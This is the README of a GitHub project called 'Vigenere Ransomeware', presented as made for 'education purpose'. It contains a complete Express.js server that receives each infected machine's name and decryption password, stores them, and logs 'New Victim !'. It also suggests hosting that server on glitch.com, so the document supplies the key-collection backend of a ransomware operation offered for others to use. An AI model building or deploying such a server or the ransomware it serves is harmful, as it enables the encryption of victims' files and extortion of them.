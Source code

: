 # Vigenere Ransomeware
a vigenere encrypt ransomeware by me :p, for education purpose.
**MAKE SURE TO STAR THE PROJECT :)**

# Used Algorithm
- Vigenere

# NOTE
i didnt try this, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also i created this only for *education purpose* .


# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use glitch.com to create projects to get the decrypt password


[Virustotal Scan Result](https://www.virustotal.com/gui/file/acf5c8c6b8658cf20e78a2a812db79dbd67ce65992dd0f5f6353962fec94a02c/detection)
